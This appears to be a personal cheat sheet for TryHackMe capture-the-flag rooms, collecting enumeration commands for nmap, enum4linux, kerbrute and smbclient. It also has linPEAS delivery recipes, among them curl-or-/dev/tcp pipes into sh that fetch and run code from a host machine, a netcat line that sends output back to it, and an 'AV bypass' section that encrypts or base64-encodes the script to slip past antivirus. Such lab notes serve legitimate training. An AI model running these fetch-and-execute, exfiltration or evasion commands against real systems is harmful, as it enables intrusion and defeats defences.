 ## Basic notes for TryHackMe.com rooms and training.

Explain shell has been great for learning.
https://explainshell.com/

paste an example of a command and it will tell you what the switches mean. Very handy.

### Enumeration Tools

## Nmap
https://nmap.org/

#### Cheatsheet
https://highon.coffee/blog/nmap-cheat-sheet/

Scan hosts and ports

basic examples

```nmap $IP -vvv -Pn -sV -oN nmap-output.txt```

narrow it down to open ports.

```nmap $IP -vvv -p 135,139,445,88,3389 -sC -sV -oN nmap-script-scan.txt```

## enum4linux
https://github.com/CiscoCXSecurity/enum4linux

#### Cheatsheet
https://highon.coffee/blog/enum4linux-cheat-sheet/

#### basic examples

```num4linux -a $IP```

## Kerbrute
https://github.com/ropnop/kerbrute

#### Cheatsheet
https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/

```./kerbrute userenum --dc 10.10.XX.XX -d spookysec.local userlist.txt```

## SMBClient

#### Cheatsheet
https://github.com/irgoncalves/smbclient_cheatsheet

list shares

```smbclient -L $IP -U '$USERNAME'```

connect to a share

```smbclient //$IP/$PATH -U '$USERNAME'```

# LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Quick Start

Find the latest versions of all the scripts and binaries in the releases page.

From github
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Local network
```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
Without curl
```
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
Excute from memory and send output back to the host
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
Output to file
```
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
Use a linpeas binary
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```
## AV bypass

open-ssl encryption
```
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim
```
Base64 encoded
```
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```
